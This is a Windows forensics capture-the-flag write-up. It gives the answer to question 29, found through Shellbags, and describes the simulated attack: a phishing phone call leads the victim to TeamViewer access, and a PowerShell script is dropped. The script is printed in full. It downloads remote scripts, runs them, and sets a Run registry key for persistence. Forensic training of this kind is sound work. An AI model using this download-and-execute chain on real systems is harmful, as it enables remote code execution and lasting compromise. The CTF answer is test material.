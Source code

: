 **Question 29**

**What is the flag in the Temp directory that was last accessed at 2024-05-15 12:43:32?**

**Answer: FLAG099**

Using the output (text files) from regripper we can search for Shellbags. 

![Untitled](Screenshots/04-WindowsForensicCTF/image28.webp)

## How the attack occured

When the victim called the number in the phishing email, she was told to download TeamViewer and allow access. Using the TeamViewer session, the attacker dropped FLAG007.ps1.

```powershell
mkdir C:\Windows\Temp\FLAG099; 
#Download and execute FLAG714.ps1
Invoke-WebRequest -URI https://raw.githubusercontent.com/M122/logz/main/itunes.ps1 -OutFile c:\Windows\Temp\FLAG714.ps1; c:\Windows\Temp\FLAG714.ps1;
#Download and execute google1.ps1
Invoke-WebRequest -URI https://raw.githubusercontent.com/M122/logz/main/google1.ps1 -OutFile c:\Windows\Temp\FLAG061.ps1; c:\Windows\Temp\FLAG061.ps1;
# Set the path to FLAG061.ps1
$FLAG061Path= "c:\Windows\Temp\FLAG061.ps1"
# Set the name for the registry entry (you can customize this)
$registryEntryName = "FLAG061"
# Set the registry key path
$registryKeyPath = "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run"
# Create or update the registry entry
Set-ItemProperty -Path $registryKeyPath -Name $registryEntryName -Value $FLAG061Path;
```

This script performs several actions:

1. It creates a directory named "FLAG099" in the **`C:\Windows\Temp\`** directory.
2. It downloads a PowerShell script named "itunes.ps1" from a GitHub repository and saves it as "FLAG714.ps1" in the **`C:\Windows\Temp\`** directory, then executes it.
3. It downloads another PowerShell script named "google1.ps1" from a GitHub repository and saves it as "FLAG061.ps1" in the **`C:\Windows\Temp\`** directory, then executes it.
4. It sets a variable **`$FLAG061Path`** to the path of "FLAG061.ps1".
5. It sets the name for a registry entry to "FLAG061".
6. It sets the registry key path to "HKCU:\Software\Microsoft\Windows\CurrentVersion\Run".
7. Finally, it creates or updates a registry entry with the name "FLAG061" and sets its value to the path of "FLAG061.ps1", so that the PowerShell script will be executed every time the current user logs in.
